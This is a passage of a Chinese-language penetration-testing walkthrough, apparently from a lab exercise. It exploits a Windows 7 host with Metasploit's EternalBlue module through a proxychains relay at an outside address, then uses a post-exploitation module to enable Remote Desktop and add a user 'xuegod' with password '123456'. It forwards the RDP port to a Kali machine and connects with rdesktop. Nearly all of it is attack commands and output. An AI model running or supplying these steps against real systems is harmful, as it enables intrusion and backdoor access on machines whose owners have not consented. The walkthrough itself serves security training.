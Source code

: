 ```
[*] 192.168.201.129:445 - Connecting to target for exploitation.
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[+] 192.168.201.129:445 - Connection established for exploitation.
```



成功拿到Win7:`192.168.201.129`权限

![image-20211013163243113](assets/image-20211013163243113.png)



利用Win7:`192.168.201.129`的远程桌面服务：但是失败

```shell
meterpreter > background                           #保存会话
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/windows/manage/enable_rdp    #使用开启rdp模块
msf6 post(windows/manage/enable_rdp) > set forward true                                #开启转发
msf6 post(windows/manage/enable_rdp) > set lport 2323                                 #设置本地端口
msf6 post(windows/manage/enable_rdp) > set username xuegod                          #设置用户名：xuegod
msf6 post(windows/manage/enable_rdp) > set password 123456                          #设置密码:123456
msf6 post(windows/manage/enable_rdp) > set SESSION 1                                #基于会话id:1
msf6 post(windows/manage/enable_rdp) > run                                         #运行
```

```
#将Win7的3389端口映射到本地kali的2323端口，即可通过本地的kali的2323端口，远程桌面到Win7
meterpreter > portfwd add -L 192.168.111.132 -l 2323 -p 3389 -r 192.168.201.129

rdp客户端连接
┌──(kali㉿kali)-[~]
└─$ rdesktop -g 1440x900 -u admin -p 123 192.168.111.132:2323
```
